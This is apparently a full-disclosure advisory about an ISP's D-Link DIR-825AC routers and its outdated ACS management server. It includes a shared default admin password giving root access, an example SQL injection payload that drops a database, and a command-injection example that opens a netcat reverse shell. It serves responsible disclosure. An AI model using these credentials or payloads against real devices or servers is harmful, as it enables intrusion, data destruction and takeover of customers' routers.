




# FDEU-CVE-2021-2F01

# Summary

Vulnerable Cgates router and outdated ACS management server.


# Tech details

Cgates provided D-Link DIR-825AC router has weak default admin password, weak factory wifi password and the outdated ACS server may contain SQL injection and remote code execution vulnerabilities.


# About Cgates

Cgates is a private company in Lithuania that provides internet, IPTV and VoIP services. In 2021 it had 20-30 million eur turnover and average salary 1944 eur.


# About Dlink router

Cgates provides a CPE internet router `D-Link DIR-825AC` to customers.

The official Cgates provided manual:

[https://www.cgates.lt/userfiles/files/instrukcijos/marsrutizatorius-d-link-dir-825.pdf](https://www.cgates.lt/userfiles/files/instrukcijos/marsrutizatorius-d-link-dir-825.pdf)

It is an entry-level 5ghz gigabit router based on Realtek RTL8196D/RTL8367R SoC. Nothing spectacular. Users do not honor it much and tend to sell it after getting for free:



[https://www.skelbiu.lt/skelbimai/d-link-ac1200-marsrutizatorius-51772539.html](https://www.skelbiu.lt/skelbimai/d-link-ac1200-marsrutizatorius-51772539.html)

<pre>
Got an updated router from Cgates. Already have a better one so don't need it.
Can ship to any city. 25 €
</pre>
<pre>
Atsiuntė C-gates atsinaujinti. Turim geresnį, tai nereikia.
Galiu išsiųsti ir į kitą miestą. 25 €
</pre>


# Weak factory wifi password

As usually, the router comes with 8 digit-only default wifi password. Which makes it very easy to connect remotely, just in a few seconds.


# Default admin password

Router's web UI is supposed to have default `admin/admin` credentials. But that didn't work. Some models may have telnet available, but the default credentials also don't work there.

All the Cgates routers shared the same custom admin password. And it was stored on the ACS server in some custom encrypted form.

The following link does not contain the actual config, but provided as an example of URL:

[http://acsd.cgates.lt:8080/config/340804DD05BC/12_05_2012%2010_49_33/tmp/etc/default/config.json](http://acsd.cgates.lt:8080/config/340804DD05BC/12_05_2012%2010_49_33/tmp/etc/default/config.json)

It required some magic to guess the correct file name (hello Citybee), but at the end we got it:

<pre>
 "passwd": [
  {
   "login_cr": "96f6e6cab3c87a5c5c419aa7208711f6",
   "pass_cr": "92f000a7fdc6857fddfb67912ae1f158"
  }
</pre>

The encryption method could not be detected from the first sight. Had to dig into the firmware.

The firmware is available here: [https://dlink.ru/ru/download2/5/19/2354/441/](https://dlink.ru/ru/download2/5/19/2354/441/)


# Decryption tool

D-Link decided to create their own custom encryption. However, since the firmware is publicly available, anyone can reverse engineer the algorithm. The code can be found at:

<pre>
Library: libdhal.so libaes-gpl.so
Function: int crypto_str(char *, char **, int);
</pre>

A special decryption tool has been created:

<pre>
$ ./decrypt.sh
User: admin
Pass: admi01
</pre>

The tool's source code published here: [https://github.com/full-disclosure/FDEU-CVE-2021-525A](https://github.com/full-disclosure/FDEU-CVE-2021-525A)

The default password `admi01` worked on multiple devices, so we assume it is the same across all the Cgates routers. Successfully logged in on both web UI and telnet giving the full admin access to the web settings and full root access to the built-in Linux busybox:

<pre>
Welcome to
     _______          ___     __  ____   _  _   ___
    |  ___  \        |   |   |__||    \ | || | /  /
    | |   | ||  ___  |   |__  __ |     \| || |/  /
    | |___| || |___| |      ||  || |\     ||     \
    |_______/        |______||__||_| \____||_|\___\

                     = Building Networks for People =

BusyBox v1.26.2 (2018-03-30 16:54:36 MSK) built-in shell (ash)
</pre>

Web UI summary:



Web UI OTA:




# Firmware

The firmware seems to be made by D-Link subsidiary in Russian Federation. All timestamps used by compilers have MSK timezone. OTA updates are also pulled from `fwupdate.dlink.ru`.

The firmware is not locked, which means you can patch the original firmware and flash it (great opportunity for persistent backdoors!). After flashing the default firmware it loses all the Cgates branding.


# Cgates ACS

As previously mentioned, D-Link provides its own CPE management software.

Cgates has it installed at this location:

[http://acsd.cgates.lt:8080/](http://acsd.cgates.lt:8080/)



HTML discloses some local server path:

```
<input type="hidden" id="apppath" data-apppath="/var/ACS/secureFiles/actions/api/../../"/>
```


# Outdated ACS software

We couldn't find any useful information about the ACS software in English. All we could find was a press release by D-Link in Lithianian and the same text in Kazakh:

[https://www.dlink.lt/lt/news/59/1503.html](https://www.dlink.lt/lt/news/59/1503.html)

[https://www.dlink.ru/kz/news/1/1497.html](https://www.dlink.ru/kz/news/1/1497.html)

Even though it states "Open source", there was no source code released, but only some very old i386 binary code.

The package can be downloaded from:

[ftp://ftp.dlink.ru/pub/Software/ACS_server/D-Link_ACS_server_distributive.rar ](ftp://ftp.dlink.ru/pub/Software/ACS_server/D-Link_ACS_server_distributive.rar)

In the package we found english installation manual. The software is really outdated. It mentions `Ubuntu 10.10` and uses obsolete security concepts, like:

<pre>
chmod -R 777 apache-tomcat/*
</pre>

and:

<pre>
chmod 777 ACSProject
cd ACSProject
chmod –R 777 *
</pre>

The main CPE management logic uses a binary executable called `ACSServer`. It contains custom network communication protocol and database connectivity. It talks directly to customers' routers.


# SQL injection

`ACSServer` binary performs the database lookup with the router's provided serial number to see if the device belongs to the ISP network. The function is called:

<pre>
int check_device_id(char *serialNumber);
</pre>

At some point it builds an SQL statement to check the device:

<pre>
sprintf(sel_dev_id_query, serialNumber);
</pre>

And the query template looks like:

<pre>
sel_dev_id_query = "SELECT `serial_number` FROM `device` WHERE serial_number = \"%s\"";
</pre>

Since the serial number parameter is controlled by the user (attacker), it is possible to supply a specially crafted serial number that would cause an sql injection. For example:

<pre>
serial_number = "aaa\"; DROP DATABASE ACS; ---"
</pre>


# RCE

One of the functions is used to send an email using this code:

<pre>
  sprintf(cmd, "echo \"%s.\" | sendmail %s ", message, Email);
  system(cmd);
</pre>

`Email` is not controlled by the attacker and seems to come from the server's config. But we couldn't quickly identify if the `message` parameter can be controlled. If it is, then an attacker can run arbitrary code on the server under the same acs user session, example:

<pre>
message = "aaa\"; nc 1.2.3.4 1337 -e /bin/bash ; echo \"aaa"
</pre>


# Easter egg

Some strange string was found inside the MD5 digest authentication implementation:

<pre>
iVar2 = find_string("qop", 0);
if (iVar2 == -1)
{
      serial = md5(HA2);
      __src = md5(HA1);
      sprintf(cpy_getParamValue, "%s:%s:%s", __src, "T.Sargsyan-S.Gharagyozyan", serial);
      puts("\n 3  ");
}
</pre>

If you know who T.Sargsyan and S.Gharagyozyan are - share this article and spread the word.


# Timeline

<pre>
2020-11-01 - initial research started and some findings logged
2020-11-22 - Cgates made a press release about a "sophisticated cyber attack" against them
2020-11-23 - initial raw findings sent to Cgates to prevent possible risk
2020-12-28 - a reminder about the disclosure's deadline sent
2020-12-29 - got a reply from Cgates asking "who da heck you are and what do you want"
2020-12-29 - sent an explanation who the white hats were
2020-12-30 - got a PGP key from Cgates
2021-01-04 - sent a detailed report
2021-01-24 - got a confirmation from Cgates that all the items had been addressed
2021-02-22 - full disclosure
</pre>
